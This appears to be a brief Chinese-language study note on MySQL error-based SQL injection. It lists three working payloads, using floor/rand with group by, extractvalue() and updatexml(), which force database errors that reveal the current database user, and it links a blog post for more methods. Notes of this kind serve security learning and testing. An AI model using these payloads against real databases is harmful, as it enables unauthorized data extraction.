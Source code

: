 ##mysql报错注入

###1.floor
> select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
>
> 不知道为啥会多出一个1

### 2.extractvalue()

> select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

### 3.updatexml()

>select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

剩余方法参考此[marinata](https://www.cnblogs.com/wocalieshenmegui/p/5917967.html)

![我噶](/Users/marinata/Downloads/gaki/Gaki7.jpg)

